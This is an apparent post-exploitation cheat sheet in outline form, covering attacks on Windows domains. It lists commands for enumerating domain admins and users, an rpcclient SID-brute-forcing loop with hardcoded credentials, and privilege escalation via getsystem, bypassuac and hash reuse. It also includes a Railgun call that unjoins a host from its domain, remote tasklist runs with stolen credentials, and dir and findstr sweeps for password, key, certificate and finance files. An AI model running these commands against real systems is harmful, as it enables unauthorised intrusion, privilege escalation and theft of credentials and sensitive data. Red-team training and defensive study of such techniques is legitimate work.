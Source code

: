 ```
  * What if cmd.exe is disabled?
    * Drop a binary (last resort)
    * Use the underlying API
    * Railgun
  * User Discovery
    * Good
      * net group "domain admins" /domain
      * net group "domain admins" /domain:DM
      * net localgroup Administrators
      * net group localgroup Administrators /domain
      * net user domainadmin_username /domain
      * net user username /domain
    * Better
      * rpcclient - enumerate users
      * ```#!/bin/bash
for i in {500..600}; do
    rpcclient -U "user%Password1" -W DOMAIN 1.2.3.4 -c "lookupsids s-1-5-21-1289870825-1602939633-2792175544-$i"
done```
      * People's passwords suck
    * https://www.corelan.be/index.php/my-free-tools/ad-cs/pve-find-ad-user/
  * Zombies
    * runas
      * ShellExecute, CreateProcessWithLogon, LogonUser
    * WCE + runhash32/64
      * user level psexec == zombie user & token
    * Run executable in memory
  * Privilege Escalation
    * Good
      * getsystem
      * Post modules
        * Keyboard layout
        * Bypassuac
      * Core Impact / Canvas ship with locals
        * Honestly a big lacking area for MSF
    * Better?
      * DomainDrop?
        * client.railgun.netapi32.NetUnjoinDomain(nil,nil,nil,nil)
    * Best
      * Just ask for it...
        * Tasklist
          * tasklist /V /S $IP /U $user /P $password
          * for /F "skip=3 delims=\" %A in ('net view') do tasklist /V /S %A /U $user /P $password
  * Finding the data that actually matters...
    * Good "Searching for Gold"
      * dir /s "My Documents"
      * dir /s "Desktop"
      * dir /s *.pcf
      * ListDrives
      * Searching for files
        * dir c:\*password* /s
        * dir c:\*competitor* /s
        * dir c:\*finance* /s
        * dir c:\*risk* /s
        * dir c:\*assessment* /s
        * dir c:\*.key* /s
        * dir c:\*.vsd /s
        * dir c:\*.pcf /s
        * dir c:\*.ica /s
        * dir c:\*.crt /s
        * dir c:\*.log /s
      * Searching in files
        * findstr /I /N /S /P /C:password *
```